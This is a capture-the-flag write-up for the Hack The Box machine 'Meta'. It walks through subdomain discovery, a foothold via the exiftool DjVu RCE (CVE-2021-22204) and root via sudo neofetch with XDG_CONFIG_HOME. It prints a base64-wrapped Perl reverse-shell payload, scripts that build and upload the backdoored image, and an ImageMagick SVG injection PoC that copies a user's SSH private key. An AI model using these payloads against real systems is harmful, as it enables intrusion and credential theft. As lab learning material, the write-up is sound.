








<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.140 acute.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Hostname from nmap scan: `artcorp.htb`
* Looks like, Webserver running static web page and no where to go

    


**ffuf scan**
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.artcorp.htb" -u 'http://10.10.11.140' -ac -v

... [snip] ...
________________________________________________

[Status: 200, Size: 247, Words: 16, Lines: 10, Duration: 323ms]
| URL | http://10.10.11.140
    * FUZZ: dev01
```

* ffuf found a subdomain `http://dev01.artcorp.htb/`

    

_Note: This is most common is htb boxes, If server is redirect to a hostname then there is high chance of a vHost or subdomain on that hostname._

There is a file upload in `/metaview` endpoint on that subdomain




# Foothold

## exiftool CVE-2021-22204

Application outputs jpg/png file metadata



From png image metadata output i guessed that this application is using `exiftool`




* There is a RCE in `exiftool` CVE-2021-22204
  * https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
  * https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
  * https://github.com/convisolabs/CVE-2021-22204-exiftool
  * https://hackerone.com/reports/1154542

* Description: Improper neutralization of user data in the DjVu file format in `exiftool` versions 7.44 and up allows arbitrary code execution when parsing the malicious image.

### Exploit

Setting up reverse shell payload image file.
```bash
# Installs the required tools
sudo apt install djvulibre-bin

# Create payload file with perl reverse shell
# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl
IP=tun0
PORT='4141'
rev_shell=$(echo "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in($PORT,inet_aton('$IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};" | base64 -w0)
payload='(metadata "\c${use MIME::Base64;eval(decode_base64('\'$rev_shell\''))};")'
echo $payload > payload

# Compress our payload file with to make it non human-readable
bzz payload payload.bzz

# INFO = Anything in the format 'N,N' where N is a number
# BGjp = Expects a JPEG image, but we can use /dev/null to use nothing as background image
# ANTz = Will write the compressed annotation chunk with the input file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Create Config file for `exiftool`
```conf
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end
```

Then update regular image file with `djvu` file content.
```bash 
exiftool -config configfile '-HasselbladExif<=exploit.djvu' sator.jpeg
```

Start `nc` listener and upload image.




### Scripts for foothold automation

For generating backdoor image file.
```bash
#!/bin/bash

IP=$1
PORT=$2
base64_revshell=$(echo "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in($PORT,inet_aton('$IP')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/bash -i');};" | base64 -w0)
payload='(metadata "\c${use MIME::Base64;eval(decode_base64('\'$base64_revshell\''))};")'
echo $payload > payload

bzz payload payload.bzz
rm payload

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
rm payload.bzz

cat >configfile <<EOL
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end
EOL

exiftool -config configfile '-HasselbladExif<=exploit.djvu' sator.jpeg -overwrite_original
rm configfile exploit.djvu
```

For file upload.
```py
import requests as r
import sys

host = 'http://dev01.artcorp.htb'

try:
	file = sys.argv[1]
	with open(file, 'rb') as f:
		r.post(f"{host}/metaview/index.php", files={'imageUpload': ('sator.jpeg', f), 'submit': (None, None)}, timeout=10)
except Exception as e:
    print(e)
```


# Privesc

We are currently as `www-data`
```bash
(remote) www-data@meta:/$ whoami
www-data
```

1 user on the box
```bash
╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
```

## ImageMagick PDF-parsing flaw

scrapping filesystem using find command
```bash
find / -type f -user thomas 2>/dev/null

# Found neofetch config file

/home/thomas/.config/neofetch/config.conf


find / -type f -printf "%T+ %p\n" 2>/dev/null | grep -v "0000\|sys\|doc\|proc\|python\|boot\|share\|dpkg\|run\|var\|ImageMagick\|lib"

# Found a bash script.
2022-01-03+10:13:19.8059060230 ./usr/local/bin/convert_images.sh
```

Script is owned by root and running `mogrify` command inside `/var/www/dev01.artcorp.htb/convert_images/` directory.
```bash
(remote) www-data@meta:/$ ls -la ./usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3 10:13 ./usr/local/bin/convert_images.sh
(remote) www-data@meta:/$ cat ./usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

And there is a cron running from user "thomas" that executing `/usr/local/bin/convert_images.sh`



`mogrify` is part of "ImageMagick" and current installed version on the box is "ImageMagick 7.0.10-36"
```bash
(remote) www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ convert -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib`
```

And there is a bug in ImageMagick before 7.0.10-40. This bug allow an attacker to execute shell commands using ImageMagick PDF-parsing via maliciously crafted svg file.

* https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image
* https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

PoC file.
```svg
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

<!-- Don't know but this only worked once for me, still troubleshooting the issue, So this exploit may not work or i don't really know clearly. Only worked once and i got id_rsa.-->

save as "test.svg" inside `/var/www/dev01.artcorp.htb/convert_images/` and wait for few minute - `watch -n 1 ls -la /dev/shm`



And login "thomas" private ssh key as user "thomas" 

## sudo `neofetch` with XDG_CONFIG_HOME

User "thomas" can run `/usr/bin/neofetch` as root with NOPASSWD
```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

And there is gtfobin for `neofetch` - https://gtfobins.github.io/gtfobins/neofetch/
```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

But it is not working.

We already found config file from find command `/home/thomas/.config/neofetch/config.conf`
```bash
echo 'exec /bin/sh' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

But still not working.

There is a keep env variable `env_keep+=XDG_CONFIG_HOME`

And we can see from one of neofetch issue on github

* https://github.com/dylanaraps/neofetch/issues/1088
* https://github.com/dylanaraps/neofetch/commit/1278844d87fc9d133258b9ba332fbed3a97c0279

That, Config file is loading form "XDG_CONFIG_HOME" env variable.

So setting `XDG_CONFIG_HOME` allow `neofetch` to access user defined config file from user's `.config` directory.
```bash
export XDG_CONFIG_HOME="$HOME/.config"
echo 'exec /bin/bash' > /home/thomas/.config/neofetch/config.conf
sudo /usr/bin/neofetch \"\"
```

